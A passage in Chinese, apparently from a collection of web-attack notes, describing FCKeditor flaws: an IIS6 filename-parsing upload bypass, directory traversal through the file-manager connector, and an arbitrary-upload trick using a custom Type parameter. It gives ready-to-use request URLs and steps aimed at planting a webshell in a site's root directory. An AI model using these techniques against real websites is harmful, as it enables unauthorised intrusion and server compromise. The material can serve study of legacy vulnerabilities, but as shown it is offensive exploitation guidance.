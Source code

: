 ※不过空格只支持 win 系统 *nix 是不支持的[1.php 和 1.php+空格是 2 个不同的文件]

Note:[`pstgroup.blogspot.com/2007/05/tipsfckeditor.html`](http://pstgroup.blogspot.com/2007/05/tipsfckeditor.html)

### FCKeditor 文件上传“.”变“_”下划线的绕过方法（二）

影响版本:=>2.4.x 的最新版已修补 脆弱描述: 来源:T00LS.Net 由于 Fckeditor 对第一次上传 123.asp;123.jpg 这样的格式做了过滤。也就是 IIS6 解析漏洞。 上传第一次。被过滤为 123_asp;123.jpg 从而无法运行。 但是第 2 次上传同名文件 123.asp;123.jpg 后。由于”123_asp;123.jpg”已经存在。 文件名被命名为 123.asp;123(1).jpg …… 123.asp;123(2).jpg 这样的编号方式。 所以。IIS6 的漏洞继续执行了。

如果通过上面的步骤进行测试没有成功，可能有以下几方面的原因： 1.FCKeditor 没有开启文件上传功能，这项功能在安装 FCKeditor 时默认是关闭的。如果想上传文件，FCKeditor 会给出错误提示。 2.网站采用了精简版的 FCKeditor，精简版的 FCKeditor 很多功能丢失，包括文件上传功能。 3.FCKeditor 的这个漏洞已经被修复。

### FCKeditor 新闻组件遍历目录漏洞

影响版本:Aspx 与 JSP 版 FCKeditor 脆弱描述：如何获得 webshell 请参考上文“TYPE 自定义变量任意上传文件漏洞” 攻击利用: 修改 CurrentFolder 参数使用 ../../来进入不同的目录

```
/browser/default/connectors/aspx/connector.aspx?Command=CreateFolder&Type=Image&CurrentFolder=../../..%2F&NewFolderName=aspx.asp 
```

根据返回的 XML 信息可以查看网站所有的目录。

```
/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=%2F

/browser/default/connectors/jsp/connector?Command=GetFoldersAndFiles&Type=&CurrentFolder=%2F 
```

### TYPE 自定义变量任意上传文件漏洞

影响版本: 较早版本 脆弱描述： 通过自定义 Type 变量的参数，可以创建或上传文件到指定的目录中去，且没有上传文件格式的限制。 攻击利用:

```
/FCKeditor/editor/filemanager/browser/default/browser.html?Type=all&Connector=connectors/asp/connector.asp 
```

打开这个地址就可以上传任何类型的文件了，Shell 上传到的默认位置是: **[`navisec.it/UserFiles/all/1.asp`](http://navisec.it/UserFiles/all/1.asp)** `Type=all` 这个变量是自定义的,在这里创建了 all 这个目录,而且新的目录没有上传文件格式的限制.

比如输入:

```
/FCKeditor/editor/filemanager/browser/default/browser.html?Type=../&Connector=connectors/asp/connector.asp 
```

网马就可以传到网站的根目录下.

Note:如找不到默认上传文件夹可检查此文件:

```
fckeditor/editor/filemanager/browser/default/connectors/asp/connector.asp?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/ 
```
